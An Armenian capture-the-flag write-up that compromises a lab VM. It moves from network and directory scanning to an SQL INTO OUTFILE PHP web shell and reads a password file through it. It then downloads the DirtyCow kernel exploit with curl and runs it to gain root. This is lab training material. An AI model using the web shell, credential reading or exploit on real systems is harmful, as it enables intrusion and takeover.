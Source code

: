 # writeup1
VM run անելուց հետո լոգին լինելա մեզանից ուզում, բայց մենք չունենք լոգին փասս
դրա համար մեր համակարգչի մեջ օգտագործում ենք **netdiscover**
գործիքը․ ինչա անում սա․
**netdiscover** գործիքը վերադարձնումա մեզ մեր ցանցում էս պահի գործող բոլոր ip ները, բացի մեր մեքենայինից․
գրում ենք հետևյալ հրամանը․
```
netdiscover -r 192.168.1.0/24 #-r ֆլագը ip ների range նա, ու որտեղից իմացանք /24 -ի մասին, երբ որ անենք ip a կտեսնենք մեր ip ն, որը /24 ովա ավարտվում
```
ու արդյունքում տեսնում ենք հետևյալը․
```
Currently scanning: Finished!   |   Screen View: Unique Hosts

 11 Captured ARP Req/Rep packets, from 5 hosts.   Total size: 498
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname
 -----------------------------------------------------------------------------
 192.168.1.1     e8:01:8d:27:a7:00      5     210  Fiberhome Telecommunication
 192.168.1.3     c8:3a:35:36:91:18      1      60  Tenda Technology Co., Ltd.
 192.168.1.2     d8:af:81:0f:42:36      1      60  AO
 192.168.1.12    08:00:27:45:1c:86      2      84  PCS Systemtechnik GmbH
 192.168.1.6     32:4c:46:b9:8e:42      2      84  Unknown vendor
```

1-ինը իմ ռոուտերն ա
2-րդը իմ մյուս ռոուտերնա
3-րդը թիվիսա
4-րդը չգիտեմ դեռ, մտնենք բրաուզերով տեսնենք․
<img src="img/Pasted image 20240704110727.png">
ըհն, կարծենք գտանք մեր մեքենայի ip-ն․ բայց շատ դատարկա առաջին հայացքից․ արժի directory ները փարս անել, տեսնենք ինչ կա չկա։

դրա համար կարանք օգտագործենք **dirb** թուլը
```
┌──(neo㉿matrix)-[~]
└─$ dirb http://192.168.1.12/

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Thu Jul  4 11:13:15 2024
URL_BASE: http://192.168.1.12/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://192.168.1.12/ ----
+ http://192.168.1.12/cgi-bin/ (CODE:403|SIZE:288)
==> DIRECTORY: http://192.168.1.12/fonts/
+ http://192.168.1.12/forum (CODE:403|SIZE:285)
+ http://192.168.1.12/index.html (CODE:200|SIZE:1025)
+ http://192.168.1.12/server-status (CODE:403|SIZE:293)

---- Entering directory: http://192.168.1.12/fonts/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

-----------------
END_TIME: Thu Jul  4 11:13:19 2024
DOWNLOADED: 4612 - FOUND: 4
```

տեսնում ենք, որ կա մի հատ /forum որի ստատուս կոդը 403 ա (forbidden)
քանի որ մենք միայն http ով էինք սկան արել, եկեք մի հատ https ով փորձենք
աշխարհի output ը տվեց, մինչ սա լինումա, կարանք արդեն https ով ֆորումը մտնենք։
<img src="img/Pasted image 20240704112010.png">
մինչ էս ամենը կուսումնասիրենք, կարանք **nmap** դնենք աշխատի էս մեր ip ի համար․
**nmap**-ը գործիքա, որը սկանա անում մեր տված ip ի բաց պորտերը, ու իրանց մասին ինֆոյա տալիս․ էս վափշե սկզբում պետքա անեինք, ուղղակի ես տարիքով մարդ եմ, մոռացել էի․
```
sudo nmap 192.168.1.12 -sS -sV -sC -v &>out
```

մինչ սկանա լինում,  **Probleme login ?** էջում հետաքրքիր լոգեր ենք տեսնում, որ lmezard user ը ուզումա լոգին լինի, չի ստացվում․ ու որ բրաուզերի ֆունկցիաներից օգտվելով search անենք էդ username ը, կտեսնենք սա.

<img src="img/Pasted image 20240704112903.png">
տեսնում ենք էս լոգերից, որ էդ user ը միամիտ իրա password նա գրել, որպես username ու ֆեյլ ա տվել․

կայքում լոգին լինելու տեղ կա, էկեք դրանով փորձենք
<img src="img/Pasted image 20240704113729.png">
ու թույն, լոգին էղանք
**dirb**-ի output ում նաև կար webmail-ը
<img src="img/Pasted image 20240704114314.png">
lmezard ով լոգին չեղավ, բայց եթե մեր ֆորումից նայենք մեր user ի մեյլը, կտեսնենք սա
<img src="img/Pasted image 20240704120557.png">

էս մեյլով լոգին լինելը ստացվեց, ու մի հետաքրքիր նամակ ենք տեսնում ստեղ
<img src="img/Pasted image 20240704120634.png">
ու երբ որ մտնենք phpmyadmin
<img src="img/Pasted image 20240704120741.png">
էս մեյլի տված փասսվորդով կկարենանք լոգին լինենք

ու էստեղ ունենք sql կոդ գրելու հնարավորություն, ու 40 տարի տանջվելուց և Slack ով ուռիշ մարդկանցից ճշտելլուց հետո հասկացա, որ մենք permission ունենք մենք templates_c folder-ում
դրա համար run կանենք հետևյալը
```
SELECT 1, '<?php system($_GET["cmd"]." 2>&1"); ?>' INTO OUTFILE '/var/www/forum/templates_c/gago.php'
```
<img src="img/Pasted image 20240704122427.png">
ըհն, ստացանք սա․

հիմա եկեք տեսնենք ինչեր կան ստեղ

```
┌──(neo㉿matrix)-[~]
└─$ curl --insecure 'https://192.168.1.12/forum/templates_c/gago.php?cmd=ls%20%20/home'
1	LOOKATME
ft_root
laurie
laurie@borntosec.net
lmezard
thor
zaz

┌──(neo㉿matrix)-[~]
└─$ curl --insecure 'https://192.168.1.12/forum/templates_c/gago.php?cmd=ls%20-a%20/home'
1	.
..
LOOKATME
ft_root
laurie
laurie@borntosec.net
lmezard
thor
zaz

┌──(neo㉿matrix)-[~]
└─$ curl --insecure 'https://192.168.1.12/forum/templates_c/gago.php?cmd=ls%20-a%20/home/LOOKATME'
1	.
..
password

┌──(neo㉿matrix)-[~]
└─$ curl --insecure 'https://192.168.1.12/forum/templates_c/gago.php?cmd=ls%20-a%20/home/LOOKATME/password'
1	/home/LOOKATME/password

┌──(neo㉿matrix)-[~]
└─$ curl --insecure 'https://192.168.1.12/forum/templates_c/gago.php?cmd=cat%20/home/LOOKATME/password'
1	lmezard:G!@M6f4Eatau{sF"

```

էս լոգին փասսով ցավոք ssh ով լոգին չենք կարում լինենք, բայց vm ով կարում ենք

<img src="img/Pasted image 20240712001204.png">
անենք uname -a տեսնենք ինչ կեռնելա, որովհետև տատուցս տարիքով մի քիչա փոքր էս iso ի ֆայլը
<img src="img/Pasted image 20240712001336.png">
ու մի փոքր գուգլելուց հետո **linux 3.2 cve** հանդիպեցի էս լինքին
https://www.cybersecurity-help.cz/exploits/1039/?ref=bulletin
ու գտա github ից էս exploit ը
https://github.com/firefart/dirtycow
git չունենք clone անելու համար, բայց ունենք curl ու 2 քթի ծակ։

գնում ենք tmp, ու curl ով քաշում ենք ֆայլը

```
cd /tmp
curl https://raw.githubusercontent.com/firefart/dirtycow/master/dirty.c > dirty.c
```
exploit-ը օգտագործելու ձևը գրած ա ֆայլում

// This exploit uses the pokemon exploit of the dirtycow vulnerability
// as a base and automatically generates a new passwd line.
// The user will be prompted for the new password when the binary is run.
// The original /etc/passwd file is then backed up to /tmp/passwd.bak
// and overwrites the root account with the generated line.
// After running the exploit you should be able to login with the newly
// created user.
//
// To use this exploit modify the user values according to your needs.
//   The default is "firefart".
//
// Original exploit (dirtycow's ptrace_pokedata "pokemon" method):
//   https://github.com/dirtycow/dirtycow.github.io/blob/master/pokemon.c
//
// Compile with:
//   gcc -pthread dirty.c -o dirty -lcrypt
//
// Then run the newly create binary by either doing:
//   "./dirty" or "./dirty my-new-password"
//
// Afterwards, you can either "su firefart" or "ssh firefart@..."
//
// DON'T FORGET TO RESTORE YOUR /etc/passwd AFTER RUNNING THE EXPLOIT!
//   mv /tmp/passwd.bak /etc/passwd
//
// Exploit adopted by Christian "FireFart" Mehlmauer
// https://firefart.at

compile անենք, ու run անենք

<img src="img/Pasted image 20240712004026.png">
կարծենք ստացվեց․ էկեք փորձենք լոգին լինենք․ էս սկրիպտը username ը փոխումա, էդիթ կանեմ, իմ ֆայլերի մեջ root ով կգցեմ, որ հետո չասեք բա խի root չի, չնայելով, որ id-ն 0-նա։
<img src="img/Pasted image 20240712004305.png">
կարաք շնորհավորեք, ունենք root.

<img src="img/Pasted image 20240712011419.png">
(էս էլ փոխած կոդը, որը գտնվում ա /scripts folder-ի մեջ)
